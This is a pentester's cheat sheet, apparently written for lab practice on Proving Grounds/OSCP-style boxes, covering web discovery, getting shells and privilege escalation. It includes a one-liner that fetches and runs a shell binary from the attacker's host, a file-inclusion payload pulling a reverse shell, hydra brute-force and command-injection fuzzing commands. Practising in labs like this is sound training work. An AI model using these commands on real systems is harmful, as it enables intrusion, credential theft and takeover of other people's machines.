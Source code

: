 # Stuck..

## YOU FUCKING HAVE THIS SHIT

### Initial Access

#### Web discovery

- Search for http://site/[hostname] if you can't find a directory or software you think should exist.
- Try both GET and POST methods for all URLs given that may be blocking data via a particular HTTP method.
- Fuzz parameters with ffuf.
- Examine response headers for minor custom errors.

#### Getting a shell

- To save time, upload a web shell instead of manually executing PHP commands.
- Some PHP local file inclusion vulnerabilities can reference remote resources with ?path=http://[kali ip]/rev-shell.php.
- Break up an exploit. Use Wireshark to watch for ICMP pings back home instead of going for a reverse shell right away.
- Instead of sharing a full rev shell payload, download an elf, +x, and execute it all in 1 command: wget -P /tmp http://kali/shell.elf && chmod +x /tmp/shell.elf && /tmp/shell.elf
- If a CMS has an RCE, look closely at what/where it's implemented. If it has /skins/ in a proof-of-concept URL, check for that functionality in admin panel or in online documentation.
- When calling back on a port (web request, shell, etc.) try multiple ports if the first fails.
- Piece together multiple initial access exploits. If one creates a web account and tries for a shell and fails, add exit(0) in the python script after the account is created and use the credentials for another exploit.
- Use the same ports the box has open for shell callbacks.
- Try at least 4 ports and ping when trying to get a callback.
- If you can control data being read to the server, always consider serialization.
- Always test payloads locally, especially if it's blind.
- Consider where can you write data to that's then read back in to the server.

### General

- Don't spin wheels on other routes if something has a known exploit to root and it's a 10 pointer.
- Check version numbers to ensure something isn't a false flag.
- Consider similar protocols. If you get an SSH key, try using it over SCP.
- Type version numbers carefully!
- For hydra always do -e nsr. Example: hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ftp -vV -f -e nsr -I
- Look for auth-owners in nmap to get usernames.
- FTP - always be in a directory on kali that's writable to download files.
- FTP brute force "admin".
- Search Metasploit modules for ideas https://github.com/rapid7/metasploit-framework.
- Search a software's Github page for version files that would give specific information.
- See Proving Grounds' Dibble for node.js RCE.
- Review page source code for commented out areas for every page.
- Guess parameters. If there's a POST forgot_pass.php with an email param, try GET /forgot_pass.php?email=%0aid.
- Parameter/command injection fuzzing:
-     Payload list: github.com/payloadbox/command-injection-payload-list
-     ffuf -w cmd-wordlist.txt -u 192.168.1.1/under_construction/forgot.php?email=abcdFUZZde
-     See Proving Grounds' Hetemit for an example
- When brute forcing credentials, guess the software name as the username and password.
- When dealing with file type uploads, try specifying just the header like GIF89a;. Files pulled from Google Images could be made different and not identified as a GIF.

Windows Privilege Escalation
- Explore the C:\ drive root. Some scheduled tasks can't be seen as a low level user could be located at C:\.
- Always test a reverse shell on a windows box when attempting to get a shell.
- Explore alternatives to a reverse shell. Leverage exposed remote access protocols. For example, if a reverse shell doesn't work, execute a command to change the Administrator password and used smbexec to auth.
- Identify all users. Attempt to brute force authentication via RDP
- Always view "C:\program files" and "C:\program files (x86)" for installed apps.

#### Linux Privilege Escalation

- Privesc scripts aren't always right:
-     e.g. a decoy exist item in crontab when sudo -l reveals a process dumper used to get credentials from memory.
- If a process dumper is available, don't Google too deep. See if there are custom "password" processes to target.
- su root is the best way to switch to root if you have a password but aren't in root group.
- Identify all users. Attempt to brute force auth ssh if /home or /etc/passwd is pulled.
- Always run echo $PATH to show available commands/locations.
- Docker - see Proving Grounds' Sirol/Escape box.
- If a user is in a group, it's probably for a reason.
- Fully understand software that's related to a user's group (e.g. fail2ban group).
- Use pspy to spy on processes and cronjobs you may not be able to see
- Run groups.
- cat ~/.profile && cat ~/.bashrc.
- If running as www-data, always inspect the contents of html or the application, look for commented out passwords.
- If another user exist, always su [user] with no password and their name as the password.
- Check /var/backups.
- Custom SUIDs won't be highlighted as linpeas and other privesc scripts don't know what they are.
-     Examine each and every SUD!
- Run linux-smart-enumeration/lse.sh as a backup privilege escalation script.
- Files with caps / capabilities - see Proving Grounds' Escape box.

#### Check out paths.md for some box paths & outtakes.md for more things that I thought were notable.